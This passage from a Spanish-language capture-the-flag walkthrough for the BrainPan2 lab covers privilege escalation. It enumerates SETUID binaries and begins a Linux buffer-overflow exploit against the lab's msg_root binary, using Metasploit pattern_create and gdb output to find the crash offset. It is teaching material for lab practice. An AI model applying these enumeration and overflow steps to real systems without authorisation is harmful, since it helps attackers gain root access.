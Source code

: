 ### Archivos con SETUID

Buscamos archivos con el SETUID del usuario ROOT.
```
find / -perm -u=s -type f 2>/dev/null
```
<img src="https://github.com/El-Palomo/BrainPan2/blob/main/Brain7.jpg" width="60%"></img>


### BOF en Linux

1. Analizamos el funcionamiento del binario.
2. Hacemos una PoC para encontrar el SEGMENTATIONFAULT

<img src="https://github.com/El-Palomo/BrainPan2/blob/main/Brain8.jpg" width="60%"></img>

3. Identificamos el OFFSET

```
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 64
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A
```

```
anansi@brainpan2:/tmp$ gdb -q ./msg_root
gdb -q ./msg_root
Reading symbols from /tmp/msg_root...done.
(gdb) r `python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A"'` msg
<"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A"'` msg   
Starting program: /tmp/msg_root `python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A"'` msg

Program received signal SIGSEGV, Segmentation fault.
0x35614134 in ?? ()
```
